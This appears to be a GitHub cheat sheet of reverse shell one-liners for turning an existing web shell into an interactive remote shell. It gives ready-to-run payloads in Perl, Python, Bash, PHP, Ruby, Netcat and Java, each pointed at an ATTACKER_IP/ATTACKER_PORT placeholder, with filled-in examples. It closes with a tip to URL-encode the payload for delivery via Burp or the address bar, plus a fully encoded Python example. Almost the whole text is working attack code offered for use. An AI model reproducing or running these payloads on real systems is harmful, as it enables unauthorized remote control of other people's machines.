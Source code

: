 # Web Shell to Reverse Shell

Different scripts to get a reverse shell from an existing web shell. 

### **Bold**= **ATTACKER_IP** *and* **ATTACKER_PORT**

# Perl

`perl -e 'use Socket;$i="`**ATTACKER_IP**`";$p=`**ATTACKER_PORT**`;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

# Python

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("`**ATTACKER_IP**`",`**ATTACKER_PORT**`));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

# Bash

`bash -i >& /dev/tcp/`**ATTACKER_IP**`/`**ATTACKER_PORT**` 0>&1`

**Example:** `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`

# PHP

If it doesn’t work, try 4, 5, 6, etc

`php -r '$sock=fsockopen("`**ATTACKER_IP**`",`**ATTACKER_PORT**`);exec("/bin/sh -i <&3 >&3 2>&3");'`

**Example:** `php -r '$sock=fsockopen("10.0.0.1",4321);exec("/bin/sh -i <&3 >&3 2>&3");'`

# Ruby

`ruby -rsocket -e'f=TCPSocket.open("`**ATTACKER_IP**`",`**ATTACKER_PORT**`).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

**Example:** `ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4321).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`


# Netcat

`nc -nv`**ATTACKER_IP** **ATTACKER_PORT**` -e /bin/sh`

`nc -nv` **ATTACKER_IP** **ATTACKER_PORT**` -e /bin/bash`

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc`**ATTACKER_IP** **ATTACKER_PORT**` >/tmp/f`

**Example:** `nc -nv 10.0.0.1 4321 -e /bin/sh`

**Example:** `nc -nv 10.0.0.1 4321 -e /bin/bash`

**Example:** `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4321 >/tmp/f`

# Java

`r = Runtime.getRuntime()` 

`p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/`**ATTACKER_IP**`/`**ATTACKER_PORT**`;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])p.waitFor()`

**Example:** `r = Runtime.getRuntime()`

`p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/4321;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])p.waitFor()`

# IMPORTANT

If we don't get a connection back, try to URL encode the payload and execute with Burp or in the URL bar directly.

**Example in Python:**

`python -c 'import
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.33.159",
53));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

**URL Encoding:**

%70%79%74%68%6f%6e%20%2d%63%20%27%69%6d%70%6f%72%74%0a%73%6f%63%6b%65%74%2c%73%75%62%70%72%6f%63%65%73%73%2c%6f%73%3b%73%3d%73%6f%63%6b%65%74%2e%73%6f%63%6b%65%74%28%73%6f%63%6b%65%74%2e%41%46%5f%49%4e%45%54%2c%73%6f%63%6b%65%74%2e%53%4f%43%4b%5f%53%54%52%45%41%4d%29%3b%73%2e%63%6f%6e%6e%65%63%74%28%28%22%31%39%32%2e%31%36%38%2e%33%33%2e%31%35%39%22%2c%0a%35%33%29%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%30%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%31%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%32%29%3b%70%3d%73%75%62%70%72%6f%63%65%73%73%2e%63%61%6c%6c%28%5b%22%2f%62%69%6e%2f%73%68%22%2c%22%2d%69%22%5d%29%3b%27






